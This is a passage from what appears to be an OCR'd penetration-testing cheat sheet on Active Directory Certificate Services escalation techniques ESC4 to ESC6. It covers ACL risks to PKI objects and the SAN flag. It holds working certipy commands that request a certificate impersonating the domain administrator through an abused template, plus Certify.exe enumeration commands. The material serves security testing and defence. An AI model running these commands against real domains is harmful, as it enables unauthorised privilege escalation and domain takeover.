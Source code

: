  - certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC4-Test -upn administrator@corp.local

#### 3) Restore config

 - certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -configuration ESC4-Test.json

# ESC5 - Vulnerable PKI Object Access Control

### The extensive web of interconnected ACL-based relationships, which includes several objects beyond certificate templates and the certificate authority, can impact the security of the entire AD CS system. These objects, which can significantly affect security, encompass:

#### 1) The AD computer object of the CA server, which may be compromised through mechanisms like S4U2Self or S4U2Proxy.

#### 2) The RPC/DCOM server of the CA server.

#### 3) Any descendant AD object or container within the specific container path CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>. This path includes, but is not limited to, containers and objects such as the Certificate Templates container, Certification Authorities container, the NTAuthCertificates object, and the Enrollment Services Container.

### The security of the PKI system can be compromised if a low-privileged attacker manages to gain control over any of these critical components.

# ESC6 - EDITF_ATTRIBUTESUBJECTALTNAME2

### If this flag is set on the CA, any request (including when the subject is built from Active Directory) can have user defined values in the subject alternative name.

## Exploitation

#### 1) Use Certify.exe to check for UserSpecifiedSAN flag state which refers to the EDITF_ATTRIBUTESUBJECTALTNAME2 flag.

 - Certify.exe cas

 - Certify.exe find
